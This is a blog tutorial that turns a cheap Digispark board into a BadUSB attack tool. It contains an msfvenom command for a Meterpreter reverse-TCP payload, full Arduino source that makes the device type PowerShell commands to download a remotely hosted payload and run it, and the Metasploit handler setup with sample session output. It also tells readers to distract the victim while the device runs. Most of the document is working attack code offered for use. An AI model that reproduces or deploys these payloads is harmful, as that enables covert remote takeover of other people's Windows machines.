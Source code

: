 +++
title = "Digispark Reverse-Shell"
date = 2018-01-20T17:03:46+01:00
draft = false
authors = ["_N0x"]
+++

# Reverse Shell for 1,50€ - Digispark instead of USB Rubber Ducky

Some of you might already have heard of it: The [USB Rubber Ducky by Hak5](https://hakshop.com/products/usb-rubber-ducky-deluxe). A very special USB-Device: Not only a mass storage device but any usb input-device you want it to be. Because of this you can use it for some very nice ways to get your payload onto a victims PC.  The Rubber Ducky is freely programmable so there are no limits on what you can do with it. The only problem is the high (but reasonable) price of $45. In this tutorial I will show you how you can use the Digispark USB Deveoplment Board as a cheap alternative. As an example we will be creating a reverse shell, that will be launched when you plug the Digispark into a windows PC.

## You will need:

* [Digispark USB Development Board](http://digistump.com/products/1)
* [Kali Linux](https://www.kali.org/) with [Metasploid-Framework](https://www.metasploit.com/)

## Digispark USB Development Board

The Digispark from Digistump is a tiny, programmable micro-controller that can be programmed with the [Arduino-IDE](https://www.arduino.cc/en/main/software). The syntax is very similar to the one of Arduino-Boards. A tutorial on how to set the IDE up for the Digispark can be found here: [Connecting and Programming Your Digispark](http://digistump.com/wiki/digispark/tutorials/connecting)

I bought a bunch of Digisparks of eBay for little money. They aren't original  (you can tell from the "rev3" which was never released) but they still are fully functional and perfect for our purposes.

For a nice video to set the Digispark up, check out this [tutorial by Seytonic](https://www.youtube.com/watch?v=fGmGBa-4cYQ)

## Creating the Payload

First of all we  need to create the payload that will be deployed and executed by the Digispark on our target machine. We will use [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) for this.

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.10 LPORT=4444 -f psh-cmd

You need to replace the LHOST parameter with you IP address. You also could use your domain and use the reverse shell even outside of your network.

Now... here we find the first difficulty. Unlike the Rubber Ducky which can use a SD-card of any size, the Digispark only has 6kb of internal memory and the library we are going to need to use the Digispark as a Keyboard itself has about 2,4kb.  So there is no space to place the payload directly on it.
To get our payload on the victim-PC we need to make it accessible on the web. We could use a local web-server, upload the plain payload to [pastebin](http://pastebin.com/) or just place it on our webspace.

## Programming The Digispark

After we've created the Payload we can start with programming the Digispark! Here we have to keep in mind that to program the Digispark you have to work with a US-Keyboard-Layout, this means you have to account for special characters and such if your keyboard layout is one of foreign origin.

The Sourcecode for the Digispark:

    #include "DigiKeyboard.h"

    /*  US-KEYBOARD-LAYOUT ONLY!!
    *
    *  still needs some testing... but should work
    *
    *  Made by _N0x
    *  Thanks to Alex (http://0xdeadcode.se/archives/581) for the idea of using a small powershell payload.
    */

    void setup() {
    // Adding some LED-effects just for fun ;)
    pinMode(1, OUTPUT);

    delay(100);
    // WIN+r, delete content, start powershell
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // WIN+r
    delay(100);
    DigiKeyboard.sendKeyStroke(KEY_DELETE); // Clean it up
    delay(50);
    DigiKeyboard.println("powershell");
    delay(500);

    // turn the LED on
    digitalWrite(1, HIGH);
    // $url = '...' --> URL to Payload
    DigiKeyboard.println("$url = 'LINK_TO_HOSTET_PAYLOAD'");
    delay(50);
    
    // $result = Invoke-WebRequest -Uri $url
    DigiKeyboard.println("$result = Invoke-WebRequest -Uri $url");
    delay(50);
    
    // powershell.exe -nop -e $result.content
    DigiKeyboard.println("powershell.exe -nop -e $result.content");

    // turn off the led if the payload is places and executed
    digitalWrite(1, LOW);

    delay(1500);
    DigiKeyboard.println("exit");
    }
    
    void loop() {
    // if done with the scripts LED starts blinking

    digitalWrite(1, HIGH);
    delay(150);
    
    digitalWrite(1, LOW);
    delay(500);
    
    }

In principle you can leave the script unchanged and only change the URL for the Payload, so that the Payload you chose can be downloaded. The Digispark should now be ready for use! Before you storm out and try to plug it into the next best USB-Port though, you should prepare Kali Linux so that your Reverse-Shell Session can be accessed directly and as soon as needed.

## Preparing MSFconsole

To prepare the receiving-end for the Reverse-Shell, open a Terminal on your Kali Linux system and start MSFconsole by entering

    root@kali:~# msfconsole

Then specify what exploit you want to use:

    msf > use exploit/multi/handler

Now there are still some parameters we have to determine:

    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 10.0.0.10
    LHOST => 10.0.0.10
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444

Replace the vlaue of LHOST with the IP/Domain you used when creating the payload with MSFconsole

To finish things off we have to tell our Console that it has to wait for a new session:

    msf exploit(handler) > exploit -z -j
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.0.0.10:4444 
    [*] Starting the payload handler...

Now it's done! You can search for the next best PC to test your Digispark out! After you plug your Digispark in a Powershell will be opened and then closed, within this timeframe you have to distract your victim, after your USB Dev. Board starts to blink fastly you know your script has been executed and you can unplug the Digispark. If everything went how it should've your console should display this:

    msf exploit(handler) > [*] Sending stage (957487 bytes) to 10.0.0.3
    [*] Meterpreter session 1 opened (10.0.0.10:4444 -> 10.0.0.3:49678) at 2017-02-06 20:25:36 +0100

At last you have to pin your session, like this:

    msf exploit(handler) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > 

And now: Congratulations! You now have a Reverse-Shell on your victims PC! With the command "help" you can see what you can do now.

Have fun, Good luck, Stay safe and don't let yourself get distracted by people with a Digispark! :D
